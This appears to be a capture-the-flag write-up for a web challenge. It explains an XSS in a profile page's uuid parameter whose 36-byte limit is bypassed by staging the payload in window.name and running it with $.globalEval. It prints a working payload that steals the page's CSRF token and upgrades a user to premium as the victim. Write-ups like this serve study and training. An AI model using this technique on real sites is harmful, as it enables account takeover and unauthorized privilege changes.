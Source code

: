 This site supports some simple functions such as login、register、profile、support.

When we change support's link, we can let server access our site.

After receiving the request, we can find the client is Firefox, so there is no XSS Auditor.

Content-Security-Policy looks like:

``Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;``

After some test, we find there is an XSS in profile with uuid. However, the payload limit to 36 bytes. But We can use ``window.name`` to bypass this limit. We can use ``window.open`` to open a new window with a long ``window.name`` which contain our payload, and execute it with ``$.globalEval(name)``.

```
<script>
window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', `
    $.get("manage.php", function(data){    
            var t = /name="token" value="([^"]+)/.exec(data);
            $.post("manage.php", {user_uuid: "0de84e6e-3185-4f61-9f5b-42dd3d450018", token: t[1], status: "premium"}); 
     });
`);
</script>
```
